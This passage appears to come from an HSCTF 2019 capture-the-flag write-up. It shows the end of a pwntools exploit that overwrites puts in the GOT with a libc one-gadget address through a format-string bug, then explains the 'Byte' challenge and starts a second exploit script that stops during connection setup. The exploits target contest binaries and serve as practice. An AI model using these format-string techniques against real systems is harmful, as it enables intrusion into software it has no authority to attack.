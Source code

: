 ```python
win_addr = libc_base + 0x4526a
payload = fmt_str(puts_got, win_addr, 24, 0x40)
send(payload)
sh.interactive()
```

flag: `hsctf{should_have_left_%n_back_in_ancient_rome}`

# Byte

## Problem

Written by: Arinerron

Free arbitrary null write primitive, get the flag

`nc pwn.hsctf.com 6666`

Binary updated without breaking changes: 5223e3fe7827c664a5adc5e0fa6f2c0ced8abaaf byte

[byte](/blog/2019-06-08-hsctf-writeup/Byte/byte)

## Solution

The binary is made to confuse decompilers. If you look at the disassembly, you can see that there's a stack variable that is checked when the loop exits. If it's zero, the flag will be printed. We can abuse the format string vuln to leak the stack address of the variable and zero it out on the second go.

Here is the exploit code:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './byte'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

def start():
  global sh
  if len(argv) < 2:
    stdout = process.PTY
    stdin = process.PTY

    sh = process(BINARY, stdout=stdout, stdin=stdin)

    if DEBUG:
      attach_gdb()

    REMOTE = False
  else:
    sh = remote('pwn.hsctf.com', 6666)
    REMOTE = True

```
